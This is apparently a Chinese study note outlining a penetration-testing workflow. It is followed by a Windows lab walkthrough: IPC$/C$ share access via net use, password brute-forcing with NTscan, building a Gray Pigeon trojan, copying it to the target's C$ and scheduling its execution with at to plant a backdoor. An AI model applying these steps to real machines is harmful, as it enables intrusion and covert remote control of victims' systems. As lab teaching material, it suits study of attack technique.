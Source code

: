 # 简单渗透测试流程

### 0. 授权

### 1. 信息收集

- nslookup
- whois

### 2. 扫描漏洞

- nmap=ip范围 端口 80（IIS，apache，发布了什么网站）
- scanport
- 高级扫描：如IIS漏洞 win2003-IIS6.0 win2008-IIS7.0 扫描网站漏洞（）

### 3. 漏洞利用

### 4. 提权

- shell环境
- 桌面环境
- 最高权限

### 5. 毁尸灭迹

### 6. 留后门

### 7. 渗透测试报告

手工测试端口号开放：
telnet IP地址 测试端口

### 1. scanport扫描445端口

### 2. 漏洞利用之IPC$：

```bash
net use  \\10.1.1.2\ipc$ 密码 /user:用户   #远程访问10.1.1.2上的ipc$
net use f: \\10.1.1.2\share 密码 /user:用户 #将远程地址10.1.1.2上的share文件夹作为我的f盘
net use f: /del #删除上一条命令中的f盘
net use * /del #删除所有远程映射
net use #查看所有远程映射
net use f: \\10.1.1.2\c$ 密码 /user:用户
```

命令行是一次性的，若想永久：

![img](img/IJ(_)OSJ4G7O5G271LF%5B5TE.png)

![img](img/7GR%7BYPQCXI@6K4I0AXF%7DF%60D.png)

![img](img/%7D6X1I%25%25S$II_%5D4KECRCDXX.png)

![image-20210508213016056](img/image-20210508213016056.png)

![img](img/%5BW1KG58WD9VVR$LOKDUR2%7DC.png)



### 3. 进行暴力破解：NTscan



### 4. 制作木马

利用光盘上的灰鸽子软件

### 5. 植入木马（留后门）

copy d:\heihei.exe \\10.1.1.2\c$

### 6. 设置计划任务自动执行木马：

```bash
net time \\10.1.1.2 #查看10.1.1.2的时间
at \\10.1.1.2 11:19 "c:\windows\system32\heihei.exe"  #定时执行heihei.exe程序
```

at命令win10已弃用

### 7.等待肉鸡上线